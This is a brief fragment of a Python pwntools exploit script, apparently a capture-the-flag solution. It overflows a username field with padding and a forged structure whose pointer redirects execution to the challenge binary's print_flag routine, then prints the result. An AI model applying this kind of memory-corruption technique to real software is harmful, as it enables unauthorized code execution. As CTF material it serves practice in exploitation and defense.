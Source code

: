 ```python
    skip(toskip)

choose(5) # change username
r.recvuntil('new username: ')
fakeplay = p32(1) + b'a'*10 + pack(context.binary.symbols['print_flag']+0x66) + pack(1)
r.sendline(b'a'*(current_play*SIZEOF_PLAY-OFFSET_TO_NAME)+fakeplay)
choose(4) # enable ascii art
choose(2) # win
r.recvuntil('[ ]\b\b')
r.sendline('1')
print(r.recvall())
```


